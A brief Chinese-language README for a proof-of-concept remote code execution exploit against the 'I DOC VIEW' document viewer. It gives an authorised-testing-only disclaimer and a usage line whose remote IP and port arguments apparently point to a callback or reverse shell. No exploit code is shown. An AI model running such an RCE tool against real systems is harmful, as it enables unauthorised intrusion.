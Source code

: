 # I DOC VIEW Poc

## 声明

I DOC VIEW RCE的Poc，本脚本仅供合法的有授权的测试使用，切勿用于未授权场景，切勿用于任何非法途径！！

任何人使用此Poc进行非法操作造成的后果，本人不承担任何责任！！！

##  Usage

```bash
python3 script.py <IP_ADDRESS> <PORT> <REMOTE_IP> <REMOTE_PORT>
```

![poc](useage.gif)

